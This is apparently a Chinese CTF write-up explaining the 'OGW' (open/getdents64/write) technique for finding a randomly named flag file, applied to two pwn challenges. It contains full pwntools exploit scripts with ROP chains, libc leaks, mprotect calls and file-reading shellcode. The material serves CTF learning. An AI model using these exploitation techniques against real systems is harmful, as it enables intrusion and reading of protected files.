getdents64\_ogw手法的利用

- - -

# getdents64\_ogw手法的利用

​`getdents64`​ 函数是 Linux 操作系统中的一个系统调用，用于读取指定目录的目录项信息。它的功能是从指定的目录中读取目录项的详细信息，包括文件名、文件类型、文件的 inode 号等

"64" 表示支持大文件（64 位文件偏移）

> 1.  **参数**：
>     
>     -   ​`fd`​：文件描述符，通常是一个已经打开的目录文件的文件描述符。
>     -   ​`dirent`​：一个用于存储目录项信息的缓冲区。
>     -   ​`count`​：`dirent`​ 缓冲区的大小，以字节为单位。
> 2.  **返回值**：
>     
>     -   成功时，返回读取的字节数。
>     -   如果已到达目录的末尾（没有更多的目录项可读），返回 0。
>     -   出错时，返回 -1，并设置 `errno`​ 变量来指示错误的类型。
> 3.  **功能**： `getdents64`​ 函数用于扫描目录并读取目录中的所有目录项。每次调用该函数时，它会读取尽可能多的目录项，直到 `dirent`​ 缓冲区填满或者目录已经读取完毕。
> 4.  **目录项信息**： 目录项的信息是以一个特定的结构体 `struct linux_dirent64`​ 的形式返回的。这个结构体包含了目录项的各种属性，如文件名、文件类型、inode 号等

‍  
OGW是指使用open、getdents64、write函数来将目录中的文件名读入指定区域的利用手法

#### hgame2022-oldfashion orw

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121757-a49fe3a4-73b6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121808-aaca1eca-73b6-1.png)

存在整形溢出

```plain
p.sendlineafter('size?\n','-1')
```

获取libc基址：

```plain
pl = b'a'*0x38+p64(rdi)+p64(1)+p64(rsi_r15)+p64(write_got)+p64(0)+p64(write_plt)+p64(main)
p.send(pl)
libc_base = uu64(p.recvuntil('\x7f')[-6:])-libc.sym['write']
li(hex(libc_base))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121823-b4339608-73b6-1.png)

我们获取libc基址后，便可得到系统调用syscall，下面就可以根据调用号开始构造函数

[linux 系统调用号表](https://blog.csdn.net/qq_29343201/article/details/52209588)

###### OGW:

由于我是对NSSCTF收录的18版本的oldfashion orw进行复现，所以这道题和原版的20版本的oldfashion orw有些差距，同时还缺少了一个提示性文件：

stat.sh：

```plain
#!/bin/bash

rm /home/ctf/flag*
cp /flag "/home/ctf/flag`head /dev/urandom |cksum |md5sum |cut -c 1-20`"
cd /home/ctf
exec 2>/dev/null
/usr/sbin/chroot --userspec=1000:1000 /home/ctf timeout 300 ./vuln
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121831-b8ac3c4e-73b6-1.png)

可以看到flag文件后面跟了长度20的随机字符串，也就是说我们没办法通过传统orw方式读取flag，需要得知存放flag文件的文件名

这时候可以利用`getdents64`​函数来获取目录下的文件

> 参数一：fd指针
> 
> 参数二：写入的内存区域
> 
> 参数三：4096
> 
> 功能：把当前文件目录下的文件名写入参数二指向的内存区域

[ls命令是怎样实现的，getdents64，linux-2.6.27.5](https://blog.csdn.net/cnbird2008/article/details/11629095)

字符串本质上是一个地址，open和getdents64函数的目录参数也是地址

```plain
#mproject(bss,0x1000,7)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(bss)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(rdx)+p64(7)+p64(mprotect)+p64(main)
p.send(pl)

#read(0,bss+0x200,0x100)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x200)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x200)

p.send(pl)
p.recv()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121852-c550baa6-73b6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121858-c8af450a-73b6-1.png)

我们需要先构造写到bss段的read函数来读入目录名

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121905-cd14ef0a-73b6-1.png)

```plain
#OGW
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss+0x300, 0x100))
shellcode += asm(shellcraft.write(1,bss+0x300, 0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

p.send(shellcode)
```

这里核心是getdents64系统调用，它读取目录文件中的一个个目录项(directory entry)并返回

我们首先在bss+0x30构造了第一个read用于下面读取'./'，ogw实现将getdents64读取的目录参数读入bss+0x100，再打印出来

```plain
p.recvuntil('flag')
flag20 = b'flag'+p.recv(20)
print(flag20) #flag16db44a3ec6a5c404373
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121922-d71d9c36-73b6-1.png)

接受到flag文件名后我们便可以通过构造第二个read输入'flag16db44a3ec6a5c404373'构成 './flag16db44a3ec6a5c404373' ，然后通过orw读写放入bss+0x200段的flag文件的内容

```plain
#read(0,bss+0x400,0x100)
p.sendline('-1')

#ORW
p.recvuntil('done!\n')
shellcode = b''
shellcode += asm(shellcraft.open('flag16db44a3ec6a5c404373'))
shellcode += asm(shellcraft.read(4,bss+0x600,0x100))
shellcode += asm(shellcraft.write(1,bss+0x600,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
p.send(shellcode)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121932-dd2661bc-73b6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121936-df4df284-73b6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121939-e1430d2c-73b6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026121945-e516c92a-73b6-1.png)

‍

###### exp：

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64

context.os = 'linux'
context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = "debug"

name = './pwn'
ldfile = './ld-linux-x86-64.so.2'
libcso = './libc.so.6'
libc = ELF(libcso)
elf = ELF(name)

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    #p = process([ldfile, name], env={"LD_PRELOAD": libcso})
    p = process(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
#p.readuntil(b'\n')
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

rdi=0x0000000000401443
rsi_r15=0x0000000000401441
ret=0x000000000040101a
bss=0x404000
main = 0x401311

write_got = elf.got['write']
write_plt = elf.plt['write']
#1 write(1,write_addr,0x6)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(1)+p64(rsi_r15)+p64(write_got)+p64(0)+p64(write_plt)+p64(main)
p.send(pl)
libc_base = uu64(p.recvuntil('\x7f')[-6:])-libc.sym['write']
li(hex(libc_base))
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']
syscall = libc_base + libc.sym['syscall']
sys = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
mprotect = libc_base+libc.sym['mprotect']
rdx = libc_base + 0x0000000000142c92
#2 mproject(bss,0x1000,7)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(bss)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(rdx)+p64(7)+p64(mprotect)+p64(main)
p.send(pl)

#3 read(0,bss+0x200,0x100)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x200)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x200)

p.send(pl)
p.recv()

#.4 OGW
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss+0x300, 0x100))
shellcode += asm(shellcraft.write(1,bss+0x300, 0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

p.send(shellcode)

p.recvuntil('flag')
flag20 = b'flag'+p.recv(20)
print(flag20) #flag16db44a3ec6a5c404373

#5 read(0,bss+0x400,0x100)
p.sendline('-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x400)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x400)

p.send(pl)

#6 ORW
p.recvuntil('done!\n')
shellcode = b''
shellcode += asm(shellcraft.open('flag16db44a3ec6a5c404373'))
shellcode += asm(shellcraft.read(4,bss+0x600,0x100))
shellcode += asm(shellcraft.write(1,bss+0x600,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
p.send(shellcode)

itr()
```

‍

#### 黄河流域2022-flag??????

比赛出的一道题，利用手法是栈迁移，但改了flag名称

在flag文件名未知的情况下无法构造常规orw来读取

这时候可以利用getdents64函数，它读取目录文件中的一个个目录项并返回

> 参数一：fd指针
> 
> 参数二：写入的内存区域
> 
> 参数三：4096
> 
> 功能：把当前文件目录下的文件名写入参数二指向的内存区域

ogw实现将getdents64读取的目录参数放入bss段，再打印出来

```plain
pay=p64(bss6+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss6+0x200)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(bss6+0x200)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss9, 0x200))
shellcode += asm(shellcraft.write(1,bss9, 0x200))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

r.send(shellcode)
```

再获取flag文件名`flag284876`​​后，我们在构造orw读取flag

###### exp：

```plain
from pwn import *

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

r=process('./pwn')
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')


li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
   gdb.attach(proc.pidof(r)[0])
   pause()

bss = 0x404200
bss5 = 0x404500-0x200
bss6 = 0x404600-0x200
bss7 = 0x404700-0x200
bss8 = 0x404800-0x200
bss9 = 0x404900-0x200

rdi=0x401283
rsi_r15=0x401281
ret=0x40101a

main=0x4011DB
read=0x4011FD

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

r.recv()
pay=b'a'*0x60+p64(bss)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss+0x60)+p64(read)
r.send(pay)

pay=p64(bss+0x70)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
r.send(pay)

leak=u64(r.recv(6)+b'\x00'*2)
base=leak-libc.sym['puts']
print(hex(base))
pop_rdi = base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx = base + libc.search(asm('pop rdx;ret;')).__next__()
pop_rdx12 = base + libc.search(asm('pop rdx;pop r12;ret;')).__next__()
read_addr = base + libc.sym['read']
mprotect = base + libc.sym['mprotect']

r.recv()
pay=b'a'*0x60+p64(bss5)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss5+0x60)+p64(read)
r.send(pay)

pay = p64(bss5+0x70)+p64(rdi)+p64(0x404000)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(pop_rdx12)+p64(7)+p64(0x401090)+p64(mprotect)+p64(main)
r.send(pay) 

r.recv()
pay=b'a'*0x60+p64(bss6)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss6+0x60)+p64(read)
r.send(pay)

pay=p64(bss6+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss6+0x200)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(bss6+0x200)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss9, 0x200))
shellcode += asm(shellcraft.write(1,bss9, 0x200))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

r.send(shellcode)

r.recvuntil('flag')
flag=r.recv(6)
print(flag)

r.recv()
pay=b'a'*0x60+p64(bss7)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss7+0x60)+p64(read)
r.send(pay)

r.recv()
pay=p64(bss7+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(0x404800)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(0x404800)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./flag284876'))
shellcode += asm(shellcraft.read(4,0x404900,0x100))
shellcode += asm(shellcraft.write(1,0x404900,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
r.send(shellcode)


r.interactive()
```

‍
